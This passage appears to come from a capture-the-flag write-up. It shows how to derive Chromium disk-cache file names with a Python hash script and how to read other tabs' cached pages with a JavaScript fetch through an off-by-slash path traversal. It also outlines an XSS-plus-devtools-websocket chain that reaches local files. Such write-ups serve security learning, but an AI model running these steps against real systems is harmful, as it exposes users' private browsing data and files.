 If we start from [this code](https://source.chromium.org/chromium/chromium/src/+/main:net/disk_cache/simple/simple_util.cc;l=54) we can see that it compute sha1 from url and take only the first 8 bytes and convert it to hexa.

If we dig calls to this function, we can recover the generation of the url, that is not just a classic URL. And we already see a exemple of this "URL" previously in the cache file headers that is used to compute hash, there is a sample :

```
1/0/_dk_http://localhost http://localhost http://localhost:5000/
```

so it take `1/0/_dk_domain + domain + url` to generate hash, take 8 first bytes from sha1 convert it to hexa and then reverse it, there is a python code to do it

```python
import hashlib
import string
import itertools
from bitstring import BitArray

def get_entry_hash_key(url):
    sha1_hash = hashlib.sha1(url.encode()).digest()
    sha1_hash = sha1_hash[:8][::-1].hex()
    return sha1_hash

base_url = "http://localhost"
url = f"1/0/_dk_{base_url} {base_url} {base_url}:5000/"
print(get_entry_hash_key(url) + "_0")
```
`b8fd63df347dda33_0`

We can check if work by opening `http://localhost:5000/` and we see that the good filename **is create on our cache** :)

So from here with our `off-by-slash` gadget, we can read all tabs opened from his URL ! 

For exemple here, we reach the ressource:
```js
fetch('http://localhost/logs../browser_cache/Default/Cache/Cache_Data/b8fd63df347dda33_0').then(response => response.text().then(htmlContent => {console.log(htmlContent)}))
```
And boom ! We have a pseudo SOP bypass :)
![](SOP.png)

---
## ⛓️ - Chaining all together

What's next? We have an **XSS gadget**, we can interact with the **devtools websocket**, and **read the contents of the cache**.

We mentioned earlier that if we could access the websockets urls, **we could LFI the server**. So here we go !

With the websocket, **we can redirect the page and XSS on anythings**, like the `file:///` protocol, because websocket is kept open through the devtools ! 
